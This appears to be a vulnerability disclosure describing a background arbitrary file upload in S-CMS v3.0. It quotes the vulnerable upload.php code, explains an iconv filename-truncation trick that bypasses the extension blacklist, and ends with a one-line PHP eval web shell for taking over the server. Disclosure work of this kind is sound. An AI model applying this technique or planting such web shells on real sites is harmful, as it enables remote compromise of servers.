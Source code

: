 # S-CMS v3.0 background arbitrary file upload GetShell

Download the S-CMS v3.0 Enterprise Website System from the official website, https://www.s-cms.cn/download.html?code=php

Use phpstudy to build windows + php 5.3 + MYSQL environment

Upload location

![](https://i.loli.net/2019/07/31/5d418f66cf56c66693.png)

The vulnerability is located in /upload/upload.php and the key code is as follows

```php
if($_SESSION["form"]=="" && $_SESSION["user"]==""){
  die("请勿跨站上传");
}

$S_filetype = $S_data[0]["S_filetype"] . "|xls|txt|sql|csv";
$id = $_GET["id"];
$path = $_GET["path"];
$a=$_GET["a"];
$path = str_replace("@@", "..", $path);
$processid = $_GET["processid"];
$n = "file" . str_Replace("AN", "", $processid);
$filename = date("Ymdhms",time());
$kname = strtolower(substr($_FILES[$n]["name"],strrpos($_FILES[$n]["name"],'.')+1));

if($_FILES[$n]["size"]>2*1024*1024 && ($kname=="jpg" || $kname=="png" ||$kname=="jpeg" ||$kname=="gif" || $kname=="bmp")){
  die("图片文件请勿超过2M");
}

if(checklogin($_SESSION["user"],$_SESSION["pass"])){
  $file_type="|html|htm";
}else{
  $file_type="";
}

if($a=="a" && checklogin($_SESSION["user"],$_SESSION["pass"])){
  $k=iconv("UTF-8","gb2312",$_FILES[$n]["name"]);
}else{
  $k = $filename . "." . $kname;
}

if (preg_match('/asp|php|apsx|asax|ascx|cdx|cer|cgi|jsp'.$file_type.'/i', $kname)) {
    die("error|上传文件格式不允许！");
} else {
    if (strpos(strtolower($S_filetype) , $kname) !== false) {
        if (strpos($path, "../") !== false) {
            $p = $path;
        } else {
            $p = $_SERVER["DOCUMENT_ROOT"] . $path;
        }
        
        move_uploaded_file($_FILES[$n]["tmp_name"], $p . "/" . $k);
```

`$kname` is the file suffix, followed by blacklist and whitelist detection. Here is a legal suffix. The key is in the `move_uploaded_file` function. The last file name is determined by the `$k` variable, and `$k= Iconv("UTF-8","gb2312",$_FILES[$n]["name"]); `

When iconv converts a character set, it can cause truncation if there are characters in the string that are not allowed in the source character set sequence. UTF-8 allows a range of 0x00-0x7F in single-byte. If the converted character is not within the range, the `PHP_ICONV_ERR_ILLEGAL_SEQ` error will occur, and the subsequent characters will not be processed after the error, causing truncation.


So generate a file name that can cause truncation

![](https://i.loli.net/2019/07/31/5d4191b6a86e372129.png)

Add the get parameter a=a, replace the file name and change the file content, Burp Suite sends the package to php, and uploads to media/1.php by default.

![](https://i.loli.net/2019/07/31/5d4191e70b89280539.png)

Successful upload

![](https://i.loli.net/2019/07/31/5d41920a0883672445.png)

Getshell is also very simple, use `<?php @eval($_REQUEST[1];) ?>`

![](https://i.loli.net/2019/08/05/LrF248PTwKlMQet.png)